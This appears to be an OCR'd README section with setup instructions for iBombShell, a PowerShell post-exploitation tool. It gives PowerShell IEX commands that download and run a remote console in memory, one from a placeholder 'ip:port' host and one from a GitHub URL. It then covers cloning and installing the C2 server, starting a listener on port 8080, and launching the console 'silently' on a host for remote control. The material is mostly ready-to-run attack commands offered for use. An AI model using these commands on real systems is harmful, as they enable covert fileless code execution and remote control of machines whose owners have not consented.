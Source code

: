 ### __Silent Mode__

`Load Ibombshell In Memory / Powershell`

```Powershell
IEX (New-Object system.Net.WebClient).downloadString('http://ip:port/console')
```
`or`

```powershell
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Telefonica/ibombshell/master/console')
```

`Clone Repo`

```
git clone https://github.com/Telefonica/ibombshell.git
```

`Install`

```
cd ibombshell\ c2/
pip install -r requirements.txt
```

`Prepare C2`

```
cd ibombshell\ c2/
```

```
python3 ibombshell.py
```

`Create the listener where the warriors will connected`

```powershell
iBombShell> load modules/listener.py
[+] Loading module...
[+] Module loaded!
iBombShell[modules/listener.py]> run
```

> The default listener port is 8080. Finally you can launch the console in silently mode on the host to get remote control

`Powershell`

```powershell
console -Silently -uriConsole http://ip or domain:port
```

![Ibombshell3](https://user-images.githubusercontent.com/84678370/131222810-6b2b14b9-779f-4265-a74f-08c9b651dd6d.png)

> Change the default port to https port 443.

```
cd ibombshell

cd ibombshell\ c2/

cd modules
```
